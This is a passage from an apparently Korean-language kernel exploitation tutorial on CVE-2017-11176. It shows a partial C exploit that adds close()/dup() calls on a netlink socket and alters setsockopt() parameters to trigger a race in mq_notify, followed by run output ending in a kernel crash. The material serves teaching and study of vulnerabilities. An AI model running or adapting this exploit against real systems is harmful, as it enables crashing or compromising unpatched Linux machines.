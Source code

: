 close/dup 호출을 추가하고 setsockopt()의 파라미터를 바꿔 익스플로잇을 업데이트해보자:

```c
struct unblock_thread_arg
{
  int sock_fd;
  int unblock_fd;     // <----- used by the "unblock_thread"
  bool is_ready;
};

static void* unblock_thread(void *arg)
{
  // ... cut ...

  sleep(5); // gives some time for the main thread to block

  printf("[unblock] closing %d fd\n", uta->sock_fd);
  _close(uta->sock_fd);                               // <----- close() before setsockopt()

  printf("[unblock] unblocking now\n");
  if (_setsockopt(uta->unblock_fd, SOL_NETLINK,       // <----- use "unblock_fd" now!
                  NETLINK_NO_ENOBUFS, &val, sizeof(val)))
    perror("setsockopt");
  return NULL;
}

int main(void)
{
  // ... cut ...

  if ((uta.unblock_fd = _dup(uta.sock_fd)) < 0)         // <----- dup() after socket() 
  {
    perror("dup");
    goto fail;
  }
  printf("[main] netlink fd duplicated = %d\n", uta.unblock_fd);

  // ... cut ...
}
```

stap 스크립트에서 FDT 재설정하는 부분을 없애고 실행해보자:

```plaintext
-={ CVE-2017-11176 Exploit }=-
[main] netlink socket created = 3
[main] netlink fd duplicated = 4
[main] creating unblock thread...
[main] unblocking thread has been created!
[main] get ready to block
[unblock] closing 3 fd
[unblock] unblocking now
mq_notify: Bad file descriptor
exploit failed!

<<< KERNEL CRASH >>>
```
